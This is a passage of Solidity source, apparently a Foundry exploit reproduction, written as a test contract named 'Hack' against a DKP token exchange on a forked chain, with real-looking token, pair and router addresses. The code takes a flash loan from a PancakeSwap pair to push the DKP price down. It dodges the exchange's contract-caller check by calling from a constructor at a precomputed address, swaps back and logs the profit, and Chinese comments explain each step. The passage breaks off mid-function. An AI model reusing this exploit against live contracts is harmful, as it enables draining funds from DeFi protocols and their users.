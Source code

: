 ```solidity
        address to,
        uint256 deadline
    ) external;
}

interface IDKPExchange {
    function exchange(uint256 amount) external;
}

IERC20 constant DKP = IERC20(0xd06fa1BA7c80F8e113c2dc669A23A9524775cF19);
IERC20 constant BUSD = IERC20(0x55d398326f99059fF775485246999027B3197955);
IUniswapV2Pair constant Pair = IUniswapV2Pair(
    0xBE654FA75bAD4Fd82D3611391fDa6628bB000CC7
);
IRouter constant Router = IRouter(0x10ED43C718714eb63d5aA57B78B54704E256024E);
IDKPExchange constant DKPExchange = IDKPExchange(
    0x89257A52Ad585Aacb1137fCc8abbD03a963B9683
);

contract RunAsNotContract {
    constructor() {
        BUSD.approve(address(DKPExchange), type(uint256).max);
        DKPExchange.exchange(100 * 10 ** BUSD.decimals());
        BUSD.approve(address(DKPExchange), 0);
        DKP.transfer(msg.sender, DKP.balanceOf(address(this)));
    }
}

contract Hack is Test {
    uint256 flashAmount;
    bytes32 the_salt = bytes32(keccak256("the_salt_string"));

    function setUp() public {
        vm.createSelectFork("theNet", 26284131);
        deal(address(BUSD), address(this), 1000 * 10 ** BUSD.decimals());
    }

    function testHack() public {
        emit log_named_decimal_uint(
            "BUSD balance at the beginning",
            BUSD.balanceOf(address(this)),
            BUSD.decimals()
        );

        //借走PAIR中的绝大部分BUSD，让DKP变得非常便宜
        flashAmount = caculateSwapAmount();
        Pair.swap(flashAmount, 0, address(this), abi.encode(flashAmount));

        //兑换BUSD，贷款回调执行完成后再兑换，否则报错"Pancake: LOCKED"
        DKP2BUSD();

        emit log_named_decimal_uint(
            "BUSD balance at the end",
            BUSD.balanceOf(address(this)),
            BUSD.decimals()
        );
    }

    function pancakeCall(address, uint256, uint256, bytes calldata) external {
        //不能直接调用,其判断了调用方是否是合约，其只允许EOA进行exchange
        //DKPExchange.exchange(xxx); // 报错： "no isContract"
        //use this:
        address calcultedAddress = calculteSpecialContractAddress();
```